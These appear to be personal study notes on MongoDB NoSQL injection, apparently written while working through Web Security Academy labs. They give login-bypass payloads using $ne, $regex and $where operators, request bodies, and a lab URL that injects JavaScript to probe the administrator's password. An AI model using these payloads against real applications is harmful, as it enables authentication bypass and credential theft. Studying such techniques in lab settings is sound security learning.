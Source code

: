 # NoSQL 

## MongoDB 

Modify JSON query to exploit MongoDB
* `{"username":"nancy"}` to `{"username":{"$ne":"invalid"}}`
* `{"$ne" : "banana"}` oeprator matches all values except banana
* `{"username" : {"$regex" : "admin.*"}} look for any values that starts with admin. 

```
{"username":{"$ne":"banana"},"password":{"$ne":"banana"}}
```

```
{"username":{"$regex":"admin.*"},"password":{"$ne":"invalid"}}
```

* `$where` is lookup function that allows to inject JavaScript.
```
{"$where":"this.username == 'admin'"}
```


csrf=jkIzTpRplEs1aNNZ24KdO5uoldXEyszh&username=wiener&password=peter



https://0a27003303beeac180bd0896003f007a.web-security-academy.net/my-account?id=administrator' && this.password.match(/\d/) || 'a'=='b


csrf=jkIzTpRplEs1aNNZ24KdO5uoldXEyszh&username=administrator&password={$where:"this.password != 'banana'"}
